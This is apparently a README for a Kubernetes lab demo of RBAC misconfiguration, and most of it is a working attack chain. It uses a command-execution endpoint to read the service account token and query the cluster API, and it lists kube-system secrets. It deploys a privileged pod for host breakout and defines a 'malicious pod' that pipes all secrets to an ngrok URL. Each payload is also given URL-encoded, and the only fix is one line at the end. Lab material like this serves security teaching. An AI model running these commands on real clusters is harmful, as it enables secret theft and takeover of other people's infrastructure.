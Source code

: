 # RBAC issues

## Context
RBAC (Role-based access control) (wiki)[https://en.wikipedia.org/wiki/Role-based_access_control].

When a k8 cluster defines resources, it decides what permissions each resource is entitled to;
Misconfiguring a resource can result K8 cluster components performing outside of their scope, i.e.:
* Exposing inner cluster secrets, tokens and basically everything accessible by the K8 inner API
* Spinning up a privileged pod and gaining root over the host [[Kiril's demo](k8s/PrivilegedPod)]  

### PoC explanation
We'd like to demo what can happen if one managed to access a wrongfully-permissioned resource (via a container in this case);

Our demo begins **after** one has achieved RCE on a cluster container and will showcase what can happen starting from that point;

> We chose not to demo RCE-achieving on a container as this diverges from the intent of this demo and was also demoed before.  

That being said, the steps will begin by interacting with one of the containers themselves as in you were in already in RCE state 

## Setup

Run the following:
```
$ minikube start
$ ...
$ ./build.sh # chmod +x if needed
```

This will do the following:
* Spin up an "app" pod(`:3000`), simple NodeJs app which basically executes any command given (our entry point for initial RCE);
* Define a new "CI service", set the "app" service account as "CI Service"
* Define a new cluster role "CI role" **as too privileged**(got access to `*`)
* Define a cluster role binding and set "CI service" to be of "CI role"

## Exploit

<details>
  <summary>Spoiler alert</summary>
As we explained, we start our journey from the "ci app" and perform RCE using it;
The way we interact w/ the app is via HTTP requests to `/?cmd=<ANY_BASH_CMD>`;

> This means that we execute the commands inside a pod!
>
That being said, let's fetch the IP of this service initially from within our local cluster:

```
$ minikube service ci-service --url=true
```
This should return something like: `http://192.168.39.72:30553`
> in the wild we would access this app via public internet; in this demo we must get it from our minikube first;
 
> From this point on we will use `` to evaluate bash commands;

Run ls:
````
curl `minikube service ci-service --url=true`?cmd=ls
````

See all env variables:
````
curl `minikube service ci-service --url=true`?cmd=env
````

Get the token
````
curl `minikube service ci-service --url=true`?cmd=cat%20/run/secrets/kubernetes.io/serviceaccount/token
````

Query for admin stuff using `KUBE_TOKEN` and the [K8 API](https://kubernetes.io/docs/concepts/overview/kubernetes-api/)
> Each example will contain a `decoded` and `encoded` parts; Each has the same payload, tho the encoded version is URI encoded, so we can use spaces etc
> 
> Use this website to uri encode for easy encoding: https://meyerweb.com/eric/tools/dencoder/
````
decoded

KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%2F%24HOSTNAME
````

List all secrets
````
decoded
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets/

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%2F%0A
````

### Examples
#### 1. Vulnerable pod
We first need to write a json file and then apply it to the cluster (like `kubectl apply -f FILE`)
> Note the `privileged:true` in the pod declaration! This leads to root on the host if the attacker wants to. 

generate nginx pod (visualise changes with `minikube dashboard`)
````
decoded

cat > nginx-pod.json <<EOF
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "name": "nginx1"
    },
    "spec": {
        "containers": [
            {
                "name": "nginx",
                "image": "nginx:1.7.9",
                "ports": [
                    {
                        "containerPort": 80
                    }
                ],

                "securityContext":{
                    "privileged": true
                }
            }
        ]
    }
}
EOF


ENCODED
cat%20%3E%20nginx-pod.json%20%3C%3CEOF%0A%7B%0A%20%20%20%20%22apiVersion%22%3A%20%22v1%22%2C%0A%20%20%20%20%22kind%22%3A%20%22Pod%22%2C%0A%20%20%20%20%22metadata%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx1%22%0A%20%20%20%20%7D%2C%0A%20%20%20%20%22spec%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22containers%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22ports%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22containerPort%22%3A%2080%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%5D%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22securityContext%22%3A%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22privileged%22%3A%20true%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%5D%0A%20%20%20%20%7D%0A%7D%0AEOF
````
dispatch it
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@nginx-pod.json    


ENCODED
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40nginx-pod.json
```

This is it! :) 
From this point one can tap into the privileged container and "break out of it";

#### 2. Malicious Pod
Below is an example of pod that dispatches (via simple `curl`) all the k8 secrets;
> I'm using ngrok for simple globally-accessible local server. [See here for installation](https://dashboard.ngrok.com/get-started/setup).
>
> Once installed, initiate the server (`$ ngrok http 3000`)and swap the IP in the malicious pod to the one from your ngrok client; 
> you can browse to `http://127.0.0.1:4040` to see visual log of the connections  

Malicious pod
```

decoded
cat > bad-pod.json <<EOF
{
	"apiVersion": "v1",
	"kind": "Pod",
	"metadata": {
		"name": "nginx2",
	},
	"spec": {
		"containers": [
			{
                "name": "nginx",
                "image": "nginx:1.7.9",
				"command": [
					"/bin/bash"
				],
				"args": [
					"-c",
					"apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H \"Authorization: Bearer $TOKEN\" -H \"Content-Type: application/json\" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | curl http://166a39ea.ngrok.io; sleep 100000"
				]
			}
		],
		"serviceAccountName": "ci-service",
		"automountServiceAccountToken": true,
		"hostNetwork": true
	}
}
EOF

ENCODED
cat%20%3E%20bad-pod.json%20%3C%3CEOF%0A%7B%0A%09%22apiVersion%22%3A%20%22v1%22%2C%0A%09%22kind%22%3A%20%22Pod%22%2C%0A%09%22metadata%22%3A%20%7B%0A%09%09%22name%22%3A%20%22nginx2%22%2C%0A%09%7D%2C%0A%09%22spec%22%3A%20%7B%0A%09%09%22containers%22%3A%20%5B%0A%09%09%09%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%09%09%09%09%22command%22%3A%20%5B%0A%09%09%09%09%09%22%2Fbin%2Fbash%22%0A%09%09%09%09%5D%2C%0A%09%09%09%09%22args%22%3A%20%5B%0A%09%09%09%09%09%22-c%22%2C%0A%09%09%09%09%09%22apk%20update%20%26%26%20apk%20add%20curl%20--no-cache%3B%20cat%20%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%20%7C%20%7B%20read%20TOKEN%3B%20curl%20-k%20-v%20-H%20%5C%22Authorization%3A%20Bearer%20%24TOKEN%5C%22%20-H%20%5C%22Content-Type%3A%20application%2Fjson%5C%22%20https%3A%2F%2F192.168.154.228%3A8443%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%3B%20%7D%20%7C%20curl%20http%3A%2F%2F166a39ea.ngrok.io%3B%20sleep%20100000%22%0A%09%09%09%09%5D%0A%09%09%09%7D%0A%09%09%5D%2C%0A%09%09%22serviceAccountName%22%3A%20%22ci-service%22%2C%0A%09%09%22automountServiceAccountToken%22%3A%20true%2C%0A%09%09%22hostNetwork%22%3A%20true%0A%09%7D%0A%7D%0AEOF
```

Dispatch
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@bad-pod.json

encoded
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40bad-pod.json
```
</details>


### Fix

To fix this problem one should set the role permissions when defining the cluster role; Simple yet dangerous;  
